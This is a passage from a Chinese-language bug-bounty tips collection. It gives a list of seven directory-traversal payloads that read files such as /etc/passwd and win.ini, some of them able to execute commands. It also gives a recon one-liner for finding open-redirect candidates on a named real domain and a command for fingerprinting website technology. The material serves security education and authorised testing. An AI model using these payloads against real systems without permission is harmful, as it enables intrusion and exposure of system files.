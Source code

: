 如果你使用的是 Kali Linux，最简单的方法就是使用 apt.apktool 来获取所有必要的程序。

```bash
apt-get -y install adb jadx apktool
```

## 62\. 目录遍历有效 payloads

By @manas\_hunter\[93\] Source: link\[94\]

这里有一个有趣的列表，列出了 7 个不常见的目录遍历有效载荷，可以轻松地赢得一些赏金。

1.`\..\WINDOWS\win.ini`2.`..%5c..%5c../winnt/system32/cmd.exe?/c+dir+c:\`3.`.?\.?\.?\etc\passwd`4.`../../boot.ini`5.`%0a/bin/cat%20/etc/passwd`6.`\\'/bin/cat%20/etc/passwd\\'`7.`..%c1%afetc%c1%afpasswd`

这个列表包含了基于 Windows 和 UNIX 操作系统的有效载荷。在有效 payloads 2、5 和 6 中，我们甚至可以找到 RCE（远程代码 / 命令执行）漏洞。

## 63\. 用 gf 查找开放的重定向漏洞

By @ofjaaah\[95\] Source: link\[96\]

这里有一个很酷的单行本，可以帮助你找到开放的重定向漏洞。你需要的只是提供目标域名。

```bash
echo "http://tesla.com" | waybackurls | httpx -silent -timeout 2 -threads 100 | gf redirect | anew
```

这就是该命令的详细作用。

1. 从 Wayback Machine\[97\] 中收集目标域名的所有 URL。2. 尝试在 100 个并行线程中快速下载所有的 URL，以确定存活 URL。3. 对于所有存活中的 URL，匹配任何潜在的易受攻击的参数来打开重定向。4. 只打印出唯一的、潜在的易受攻击的 URL。

![图片](assets/1710308628-1976ced23c8f0ff5cb7277c0407bd835.png)

为了让这个组合发挥作用，我们必须安装以下工具，非常有用，不仅仅是为了赏金计划。  

•https://github.com/tomnomnom/waybackurls•https://github.com/projectdiscovery/httpx•https://github.com/tomnomnom/gf•https://github.com/1ndianl33t/Gf-Patterns (redirect gf patterns)•https://github.com/tomnomnom/anew

## 64\. 了解网站用的哪些技术

By @akita\_zen\[98\] Source: link\[99\]

这是另一个非常酷的单行本。这个可以帮助识别某个网站（或网站列表）是用什么技术建立的。

它使用 Wappalyzer\[100\] 的 API，你需要提供的只是一个像这样的 URL 列表。

```bash
cat urls-alive.txt | parallel -j 50 "echo {}; python3 main.py analyze --url {}"
```

该命令将产生 50 个并行实例，以快速处理所有提供的 URL，并以最快的速度给我们提供结果。

![图片](assets/1710308628-8742194585817abe6c158d948c0f003d.png)

相当整洁，信息量大！  
